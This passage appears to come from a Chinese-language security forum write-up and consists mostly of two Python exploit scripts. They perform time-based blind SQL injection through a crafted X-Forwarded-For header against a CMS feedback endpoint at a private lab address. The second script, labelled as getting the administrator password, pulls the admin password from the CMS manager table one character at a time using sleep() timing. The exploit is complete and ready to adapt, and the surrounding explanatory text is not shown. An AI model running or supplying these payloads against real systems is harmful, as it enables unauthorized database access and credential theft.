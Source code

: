 ```py
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------22936092383923055377108790415", "X-Forwarded-for": xff, "Connection": "close", "Referer": "http://192.168.1.103/feedback/", "Upgrade-Insecure-Requests": "1"}
        start = time.time()
        requests.post(url, headers=headers, data=data)
        end = time.time()
        if end - start > 2.8:
            flag += j
            print(flag)
            break
print("result："+flag)
```

![image-20220415133259565.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-93edf84f1c5b2c6cf5cf3174ca1200279b269923.png)

获取管理员密码

```py
#-- coding:UTF-8 --
# Author:dota_st
# Date:2022/4/15 12:38
# blog: www.wlhhlc.top
import requests
import time

url = "http://192.168.1.103:80/api/feedback/"
dict = "0123456789abcdefghijklmnopqrstuvwxyz{}-"

data = "-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"items\"\r\n\r\n58\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params1\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params2\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params3\"\r\n\r\nadmin@qq.com\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params4\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params5\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415--\r\n"
flag = ""

for i in range(1,50):
    for j in dict:
        #xff = f"127.0.0.1',sleep(if((substr((select database()),{i},1)=\"{j}\"),3,0)),'1')#"
        xff = f"127.0.0.1',sleep(if((substr((select password from cms.xxcms_manager where id=1),{i},1)=\"{j}\"),3,0)),'1')#"
        print(xff)
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------22936092383923055377108790415", "X-Forwarded-for": xff, "Connection": "close", "Referer": "http://192.168.1.103/feedback/", "Upgrade-Insecure-Requests": "1"}
        start = time.time()
        requests.post(url, headers=headers, data=data)
        end = time.time()
        if end - start > 2.8:
            flag += j
            print(flag)
            break
print("result："+flag)
```
